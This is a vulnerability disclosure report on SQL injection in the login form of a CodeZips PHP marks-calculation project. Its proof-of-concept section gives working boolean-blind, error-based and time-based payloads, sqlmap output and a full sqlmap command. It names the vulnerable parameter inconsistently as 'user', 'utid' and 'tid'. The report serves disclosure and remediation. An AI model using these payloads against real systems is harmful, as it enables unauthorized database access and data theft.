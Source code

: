 # CodeZips Internal Marks Calculation In PHP With Source Code 1.0 index.php SQL injection
# NAME OF AFFECTED PRODUCT(S)
+ Internal Marks Calculation In PHP With Source Code
## Vendor Homepage
+ https://codezips.com/php/internal-marks-calculation-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ index.php
## VERSION(S)
+ V1.0
## Software Link
+ https://codeload.github.com/codezips/internal-marks-calculator-php/zip/master
# PROBLEM TYPE
## Vulnerability Type
+ SQL injection
## Root Cause
+ A SQL injection vulnerability was found in the 'index.php' file of the 'Internal Marks Calculation In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter "user" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.
## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.
# DESCRIPTION
+ During the security review of "Internal Marks Calculation In PHP With Source Code", N3xu5Cr4ck37g  discovered a critical SQL injection vulnerability in the "index.php" file. This vulnerability stems from insufficient user input validation of the 'user' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.
# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type: 
+ boolean-based blind
+ error-based
+ time-based blind
## Vulnerability location:
+ 'utid' parameter 
## Payload: 
```sql
    tid=111' AND 9791=(SELECT (CASE WHEN (9791=9791) THEN 9791 ELSE (SELECT 2296 UNION SELECT 6468) END))-- -&tpassword=111&tsub=111&Login=提交

    tid=111' OR ROW(6894,5488)>(SELECT COUNT(*),CONCAT(0x717a7a7071,(SELECT (ELT(6894=6894,1))),0x7178787671,FLOOR(RAND(0)*2))x FROM (SELECT 6693 UNION SELECT 2283 UNION SELECT 9539 UNION SELECT 5302)a GROUP BY x)-- QeVT&tpassword=111&tsub=111&Login=提交

    tid=111' AND (SELECT 3095 FROM (SELECT(SLEEP(5)))ZZiQ)-- ZscK&tpassword=111&tsub=111&Login=提交
``` 
```makefile
    Parameter: tid (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: tid=111' AND 9791=(SELECT (CASE WHEN (9791=9791) THEN 9791 ELSE (SELECT 2296 UNION SELECT 6468) END))-- -&tpassword=111&tsub=111&Login=提交

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: tid=111' OR ROW(6894,5488)>(SELECT COUNT(*),CONCAT(0x717a7a7071,(SELECT (ELT(6894=6894,1))),0x7178787671,FLOOR(RAND(0)*2))x FROM (SELECT 6693 UNION SELECT 2283 UNION SELECT 9539 UNION SELECT 5302)a GROUP BY x)-- QeVT&tpassword=111&tsub=111&Login=提交

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: tid=111' AND (SELECT 3095 FROM (SELECT(SLEEP(5)))ZZiQ)-- ZscK&tpassword=111&tsub=111&Login=提交
```
+ ![1](https://github.com/user-attachments/assets/12e5d9de-ca99-4541-b9be-0230f3c38bd3)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```bash
    python sqlmap.py -u "http://localhost:8115/" --data="tid=111&tpassword=111&tsub=111&Login=提交" --cookie="PHPSESSID=7j39lvbnsifgoe8mtp8ibac3s2" --dbms=mysql --batch --dbs --risk=3 --level=5
```
+ ![2](https://github.com/user-attachments/assets/c699a4e0-8d88-4df3-96ff-a98f84b283be)

# Suggested repair
1. **Use prepared statements and parameter binding:**
Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**
Strictly validate and filter user input data to ensure it conforms to the expected format. 

3. **Minimize database user permissions:**
Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**
Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

